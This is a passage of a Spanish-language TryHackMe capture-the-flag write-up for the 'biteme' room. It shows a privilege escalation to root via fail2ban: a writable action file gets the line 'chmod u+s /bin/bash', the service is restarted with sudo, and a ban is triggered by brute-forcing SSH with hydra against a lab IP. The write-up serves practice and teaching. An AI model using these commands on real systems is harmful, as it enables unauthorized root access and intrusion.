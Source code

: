 Ahora como fred.

Podemos reiniciar el servicio fail2ban como root sin contraseña. Si podemos modificar su unidad de sistema o algo que cargue, podemos  ejecutar cualquier comando como root al reiniciar.

Aprovechando la explicación de una vulnerabilidad conocida en este [post](https://hackmd.io/@tahaafarooq/privilege-escalation-fail2ban)

- Resumen de la vulnerabilidad

fail2ban ejecuta acciones como root cuando detecta actividad maliciosa (como fuerza bruta).

Esas acciones se definen en archivos como /etc/fail2ban/action.d/iptables-multiport.conf.

Si podemos modificar esos archivos, podemos colarle un comando malicioso que se ejecuta como root.

Luego hacmeos que se dispare la acción (por ejemplo, fallando un login muchas veces).

### Fail2ban

Verificamos permisos sobre `` /etc/fail2ban/action.d`

![alt text](/assets/img/writeups/tryhackme/biteme/image-20.png)

Confirma que tenemos escritura en:

`/etc/fail2ban/action.d/iptables-multiport.conf`

Añadimos la siguiente linea al archivo:

```plaintext	
actionban = chmod u+s /bin/bash
```

![alt text](/assets/img/writeups/tryhackme/biteme/image-21.png)

Reiniciamos el servicio fail2ban.

```bash
sudo systemctl restart fail2ban
```

Realizamos un ataque de fuerza bruta.

```bash
hydra -l root -P MFA.txt 10.10.56.136 ssh
```

Y pasados unos segundos...

![alt text](/assets/img/writeups/tryhackme/biteme/image-22.png)

